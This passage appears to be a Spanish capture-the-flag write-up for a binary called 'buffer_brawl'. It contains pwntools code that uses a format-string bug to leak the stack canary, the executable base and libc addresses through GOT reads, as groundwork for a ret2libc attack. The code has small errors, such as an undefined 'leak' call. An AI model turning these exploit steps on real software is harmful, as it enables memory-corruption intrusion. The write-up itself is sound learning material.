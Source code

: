 Escribimos el stack en 6, 11 es el canario y 13 es la direccion de retorno al menú. Podemos comprobar esto en radare2 u otro debbugger:

![f1](https://github.com/user-attachments/assets/21c62cc0-ed0b-4073-8b97-935f0c10b5c0)

![return](https://github.com/user-attachments/assets/ef5625c9-3247-4e99-95db-0c8c4d64da63)

La primera imagen es el estado de la pila justo después de introducir la cadena, y la segunda es justo antes de ret. Como podemos observar efectivamente la décimo-tercera dirección filtrada es el retorno.

Para calcular la direccion base del ejecutable solo hay que restarle el desplazamiento de esa direccion a la direccion filtrada. Encontramos el desplazamiento en un análisis estático al elf.

![slipreturn](https://github.com/user-attachments/assets/385fe987-62a0-4462-8ffd-8362b0318bfa)

%\<n\>$p es un identificador de formato que nos permite imprimir un valor específico de la pila, donde n es el desplazamiento a a dirección actual del puntero de pila, contado a partir de 1.

Entonces, podemos obtener las direcciones que nos interesan con %11$p y %13$p y calcular la direccion base del ejecutable, por ahora el script iría quedando así:

``` python3
from pwn import *
exe = context.binary = ELF("buffer_brawl")
io = process(exe.path)

def stack_leak(p):
    io.sendline(b"4")
    io.recvuntil(b"Right or left?\n")
    io.sendline(p)
    return io.recvline(keepends=False)

cookie, exe_leak = stack_leak(b"%11$p %13$p").split()
cookie = int(cookie[2:], 16)                              # Canario
exe_leak = int(exe_leak[2:], 16)                          # Direccion filtrada
exe.address = exe_leak - 0x1747                           # desplazamiento de la direccion de retorno a la base
``` 

Aquí ahora necesitamos hacer un ret2libc, para eso necesitamos la dirección base de libc, pero primero tenemos que filtrar alguna dirección de las funciones de libc usadas en el ejecutable (printf, puts, etc...)

Nos auxiliaremos del parámetro %s, que muestra la memoria de una dirección dada en el stack (los símbolos de la Global Offset Table en tiempo de ejecución contienen la dirección real de la función en libc). El relleno con ljust se usa para alinear correctamente la memoria y asegurarse de que la dirección de la GOT esté en la posición adecuada:

``` python
# 2.Obtener la direccion base de libc
def leak_got(sym):
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[sym]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr

puts_addr = leak_got("puts")
io.info(f"{leak("puts")=:x}")

""""
# Usado para encontrar la version de libc correcta en el remoto
io.info(f"{leak_got("printf")=:x}")
io.info(f"{leak_got("read")=:x}")
io.info(f"{leak_got("exit")=:x}")
""" 

libc.address = puts_addr - libc.sym.puts
```